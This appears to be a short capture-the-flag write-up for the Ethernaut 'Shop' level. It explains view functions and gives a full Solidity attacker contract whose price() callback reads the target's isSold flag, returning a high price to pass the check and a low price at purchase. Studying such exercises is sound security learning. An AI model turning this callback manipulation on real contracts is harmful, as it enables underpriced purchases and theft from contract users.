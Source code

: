 # Level 21 - Shop

- Similar to elevator, but View is used this time.
- View functions allow to read state however pure doesn’t allow to read. Both don’t allow to modify state.
- Here we define return value of price according to isSold value of shop.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Shop.sol";

contract ShopAttacker {

    Shop target =  Shop(0x9A222464D9EB6eA01F765D98B84587ab5D9daF5B);

    function price() external view returns (uint256 _price) {
        return target.isSold() ? 1 : 101;
    }

    function attack() public {
        target.buy();
    }
}
```